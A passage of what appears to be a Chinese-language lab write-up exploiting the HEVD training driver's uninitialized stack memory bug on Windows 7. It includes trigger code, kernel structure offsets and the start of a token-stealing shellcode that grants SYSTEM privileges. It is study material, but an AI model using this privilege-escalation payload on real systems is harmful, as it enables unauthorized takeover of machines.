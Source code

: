 ```
        DeviceIoControl(hDevice, HEVD_IOCTL_UNINITIALIZED_MEMORY_STACK, buf, 4, NULL, 0, &bReturn, NULL);
        //cmd
        printf("[+]Start to Create cmd...\n");
        STARTUPINFO si = { sizeof(si) };
        PROCESS_INFORMATION pi = { 0 };
        si.dwFlags = STARTF_USESHOWWINDOW;
        si.wShowWindow = SW_SHOW;
        WCHAR wzFilePath[MAX_PATH] = { L"cmd.exe" };
        BOOL Return = CreateProcessW(NULL, wzFilePath, NULL, NULL, FALSE, CREATE_NEW_CONSOLE, NULL, NULL, (LPSTARTUPINFOW)&si, &pi);
        if (Return) CloseHandle(pi.hThread), CloseHandle(pi.hProcess);
        system("pause");
        return 0;
 
    }
 
 
 
} 
```

 

payload 功能：遍历进程，得到系统进程的 token，把当前进程的 token 替换，达到提权目的。

 

相关内核结构体：

 

在内核模式下，fs:[0] 指向 KPCR 结构体

```
_KPCR
+0x120 PrcbData         : _KPRCB
_KPRCB
+0x004 CurrentThread    : Ptr32 _KTHREAD，_KTHREAD指针，这个指针指向_KTHREAD结构体
_KTHREAD
+0x040 ApcState         : _KAPC_STATE
_KAPC_STATE
+0x010 Process          : Ptr32 _KPROCESS,_KPROCESS指针，这个指针指向EPROCESS结构体
_EPROCESS
   +0x0b4 UniqueProcessId  : Ptr32 Void,当前进程ID，系统进程ID=0x04
   +0x0b8 ActiveProcessLinks : _LIST_ENTRY，双向链表，指向下一个进程的ActiveProcessLinks结构体处，通过这个链表我们可以遍历所有进程，以寻找我们需要的进程
   +0x0f8 Token            : _EX_FAST_REF，描述了该进程的安全上下文，同时包含了进程账户相关的身份以及权限

```

payload：

```
VOID payload()
{
    __asm {
        pushad                               ; Save registers state
 
        ; Start of Token Stealing Stub
        xor eax, eax                         ; Set ZERO
        mov eax, fs:[eax + KTHREAD_OFFSET]   ; Get nt!_KPCR.PcrbData.CurrentThread
                                             ; _KTHREAD is located at FS:[0x124]
 
        mov eax, [eax + EPROCESS_OFFSET]     ; Get nt!_KTHREAD.ApcState.Process
 
        mov ecx, eax                         ; Copy current process _EPROCESS structure
 
        mov edx, SYSTEM_PID                  ; WIN 7 SP1 SYSTEM process PID = 0x4
```